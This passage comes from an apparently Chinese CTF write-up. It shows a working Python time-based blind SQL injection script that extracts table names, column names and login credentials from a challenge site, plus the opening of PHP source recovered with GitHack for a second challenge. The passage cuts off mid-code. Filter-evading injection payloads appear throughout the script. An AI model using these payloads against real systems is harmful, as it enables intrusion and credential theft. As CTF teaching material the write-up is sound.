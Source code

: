 ![](https://img-blog.csdnimg.cn/20210223125151963.png)
```python
import requests
import time

url = 'https://jailbreak.liki.link/login.php'
flag = ''
for n in range(1,40):
    for i in range(32,126):
        #payload = 'or/**/if(ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/regexp/**/database()),%d,1))regexp/**/%d,sleep(3),1)#' %(n,i)
        #payload = 'or/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/regexp/**/0x7535657273),%d,1))regexp/**/%d,sleep(3),1)#' %(n,i)
        payload = 'or/**/if(ascii(substr((select/**/group_concat(`usern@me`,0x2c,`p@ssword`)/**/from/**/u5ers),%d,1))regexp/**/%d,sleep(3),1)#' %(n,i)
        print(payload)
        data={
            'username':'admin@qq.com\\',
            'password':payload
            }
        start = int(time.time())
        r = requests.post(url,data=data)
        end = int(time.time()) - start
        if end>=3:
            flag = flag+chr(i)
            break
    if flag == '':
        break
    print(flag)
```
直接使用脚本即可得到账号密码
![](https://img-blog.csdnimg.cn/20210223125328239.png)
**这里本来做的差不多了，结果最后一步爆不出来账号密码，发现原来要加上反引号，在mysql中用来区分保留字符与普通字符**

### Arknights
很明显的提示，需要使用GitHack来，即可得到源码
![](https://img-blog.csdnimg.cn/20210302151016820.png)
simulator.php：
```php
<?php

class Simulator{

    public $session;
    public $cardsPool;

    public function __construct(){

        $this->session = new Session();
        if(array_key_exists("session", $_COOKIE)){
            $this->session->extract($_COOKIE["session"]);
        }

        $this->cardsPool = new CardsPool("./pool.php");
        $this->cardsPool->init();
    }

    public function draw($count){
        $result = array();

```